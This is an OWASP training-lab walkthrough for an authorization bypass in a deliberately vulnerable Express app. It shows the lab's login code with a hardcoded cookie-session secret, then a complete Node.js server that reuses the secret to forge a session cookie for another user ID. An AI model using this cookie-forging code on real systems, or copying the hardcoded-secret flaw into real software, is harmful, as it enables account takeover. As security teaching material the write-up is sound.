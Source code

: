# Authorization Bypass

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-auth-bypass
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-auth-bypass
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Let's login with admin/admin.

![](../../.gitbook/assets/python/Auth-Bypass/1.png)

Once we login we see an API key.

![](../../.gitbook/assets/python/Auth-Bypass/2.png)

Let's have a look at the source code:

```javascript
app.all("/login", (req, res) => {
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  const api = "SELECT * FROM preferences WHERE UserId = ?";
  if (req.method === "POST") {
    db.get(sql, [req.body.username, req.body.password], (err, row) => {
      if (row) {
        req.session.userId = row.UserId;
        req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
        req.session.loggedIn = true;
        db.get(api, [req.session.userId], (err, row) => {
          res.render("home.ejs", { api: row.API_key });
        });
      } else {
        res.render("index.ejs");
      }
    });
  } else {
    db.get(api, [req.session.userId], (err, row) => {
      res.render("home.ejs", { api: row.API_key });
    });
  }
});
```

We can see the cookie session secret is exposed, now we can try to recreate this application cookie implementation to be able to recreate a cookie to bypass the authentication.

## Exploitation

We can start building our malicious server.

```javascript
const cookieSession = require("cookie-session");
const express = require("express");
const cookieParser = require("cookie-parser");
const app = express();

app.use(express.static(__dirname));
app.use(cookieParser());
app.use(
  cookieSession({
    name: "session",
    keys: ["e5ac-4ebf-03e5-9e29-a3f562e10b22"],
    httpOnly: false,
    maxAge: 86400000,
  })
);

app.get("", (req, res) => {
  req.session.userId = 2; // CHANGED THE USER ID
  req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
  req.session.loggedIn = true;
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () =>
  console.log(`Listening on port ${port}...!!!`)
);
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ npm install express ejs cookie-session cookie-parser
```

Save the following snippet code into /views/evil.js

```html
<p>The newly created cookie for doing the bypass:</p>
<script>
  alert(document.cookie);
</script>
```

We are ready to start our server:

```text
$ node evil_server.js
```

![](../../.gitbook/assets/python/Auth-Bypass/3.png)

Now we can replace our original cookie with the tampered cookie.

![](../../.gitbook/assets/python/Auth-Bypass/4.png)

Refresh the page:

![](../../.gitbook/assets/python/Auth-Bypass/5.png)

## Additional sources

{% embed url="https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema" %}

